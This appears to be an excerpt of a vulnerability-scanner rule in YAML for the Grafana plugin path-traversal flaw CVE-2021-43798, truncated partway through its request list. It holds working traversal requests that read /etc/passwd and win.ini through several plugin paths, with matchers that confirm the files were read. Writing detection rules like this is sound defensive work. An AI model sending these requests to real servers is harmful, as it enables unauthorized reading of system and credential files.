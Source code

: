 ```yaml
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r2:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r3:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r4:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r5:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r6:
        request:
            cache: true
            method: GET
            path: /public/plugins/barchart/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r7:
        ...
expression: |
    r0() || r1() || r2() || r3() || r4() || r5() || r6() || r7() || r8() || r9() || r10() || r11() || r12() || r13() || r14() || r15() || r16() || r17() || r18() || r19() || r20() || r21() || r22() || r23() || r24() || r25() || r26() || r27() || r28() || r29() || r30() || r31() || r32() || r33() || r34() || r35() || r36() || r37() || r38() || r39() || r40() || r41() || r42() || r43() || r44() || r45() || r46() || r47() || r48() || r49() || r50() || r51() || r52() || r53() || r54() || r55() || r56() || r57() || r58() || r59() || r60() || r61() || r62() || r63() || r64() || r65() || r66() || r67() || r68() || r69() || r70() || r71() || r72() || r73() || r74() || r75() || r76() || r77() || r78() || r79()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
#### 优化三